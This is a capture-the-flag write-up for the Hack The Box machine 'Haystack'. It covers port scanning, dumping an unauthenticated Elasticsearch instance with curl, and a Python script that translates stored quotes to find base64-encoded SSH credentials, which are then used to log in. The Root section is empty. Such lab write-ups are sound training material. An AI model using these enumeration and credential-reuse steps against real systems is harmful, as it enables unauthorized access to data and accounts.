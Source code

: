 # Haystack
```
Difficulty: Easy
Operating System: Linux
Hints: True
```
## Initial Enumeration
Running nmap scan (TCP) on the target shows the following results:
```
Nmap scan report for 10.10.10.115
Host is up (0.083s latency).
Not shown: 993 filtered tcp ports (no-response), 4 filtered tcp ports (host-prohibited)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey:
|   2048 2a:8d:e2:92:8b:14:b6:3f:e4:2f:3a:47:43:23:8b:2b (RSA)
|   256 e7:5a:3a:97:8e:8e:72:87:69:a3:0d:d1:00:bc:1f:09 (ECDSA)
|_  256 01:d2:59:b2:66:0a:97:49:20:5f:1c:84:eb:81:ed:95 (ED25519)
80/tcp   open  http    nginx 1.12.2
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: nginx/1.12.2
9200/tcp open  http    nginx 1.12.2
|_http-title: 502 Bad Gateway
|_http-server-header: nginx/1.12.2
```
If we dig into port 80, we can see that we cannot see anything relevant, just an image showing a needle in a haystack.  
If we try to download this image and execute exiftool aganist it we do not see any relevant information, so we can proceed with port 9200.  
As soon as we open port 9200 we can see elasticsearch service configured.  
In order to enumerate elasticsearch and probe indices, we can go over [book.hacktricks.xyz](https://book.hacktricks.xyz/pentesting/9200-pentesting-elasticsearch).  
As we can see here, to enumerate indices we can perform the following request:
```
[root@kali Haystack ]$ curl -s http://$TARGET:9200/_cat/indices                                              
green  open .kibana 6tjAYZrgQ5CwwR0g6VOoRg 1 0    1 0     4kb     4kb
yellow open quotes  ZG2D1IqkQNiNZmi2HRImnQ 5 1  253 0 262.7kb 262.7kb
yellow open bank    eSVpNfCfREyYoVigNWcrMw 5 1 1000 0 483.2kb 483.2kb
```
Also according to [book.hacktricks.xyz](https://book.hacktricks.xyz/pentesting/9200-pentesting-elasticsearch) for elasticsearch we can enumerate the indexes using the following query:
```
[root@kali Haystack ]$ curl -s http://$TARGET:9200/bank/_search\?size\=1000 | jq '.hits .hits[] ._source .email'
[... SNIP ...]
"virginiaayala@filodyne.com"
"aureliaharding@orbalix.com"
"ratliffheath@zappix.com"
"lavernejohnson@senmei.com"
"effiegates@digitalus.com"
"rowenawilkinson@asimiline.com"
"hudsonenglish@xinware.com"
"blakedavidson@quantasis.com"
"garciahess@quiltigen.com"
"rachellerice@enaut.com"
[... SNIP ...]
```
So, at this point we may notice that there is a field called "total" inside "hits" that indicates that 1000 documents were found inside this index but only 10 were retried. This is because by default there is a limit of 10 documents.  
But, now that you know that this index contains 1000 documents, you can dump all of them indicating the number of entries you want to dump in the size parameter.  
Now let's enumerate the quote index.  

## User
Using the previous method to enumerate elastic for the quote index, we can see that the index is filled with Spanish quotes, so before starting let's translate them.  
To do so, let's build the following python script:  
```
import requests, json
from deep_translator import GoogleTranslator

r=requests.get('http://10.10.10.115:9200/quotes/_search?size=253');
quotes=json.loads(r.text)

for i in range(0, len(quotes['hits']['hits'])):
    q=quotes['hits']['hits'][i]
    t=q['_source']['quote']
    translation = GoogleTranslator(source='auto', target='en').translate(t)
    print(translation)
```
now that we have all the quotes translated we can search in the output for keywords that may represent any credential to access this box like secret, key,password, passwd and so on.  
we can find the following:  
```
I have to save the key for the machine: dXNlcjogc2VjdXJpdHkg   
This key cannot be lost, I keep it here: cGFzczogc3BhbmlzaC5pcy5rZXk=
```  
Let's base64 decode:  
```
[root@kali Haystack ]$ echo "dXNlcjogc2VjdXJpdHkg" | base64 -d
user: security #    
[root@kali Haystack ]$ echo "cGFzczogc3BhbmlzaC5pcy5rZXk=" | base64 -d
pass: spanish.is.key#  
```
now, if we try this user/pass combination with SSH service (the only service that is exposing a login) we can login as user security:
```
[root@kali Haystack ]$ ssh $TARGET -l security                    
security@10.10.10.115's password:
Last login: Fri Feb 18 12:03:21 2022 from 10.10.14.24
[security@haystack ~]$
```

## Root
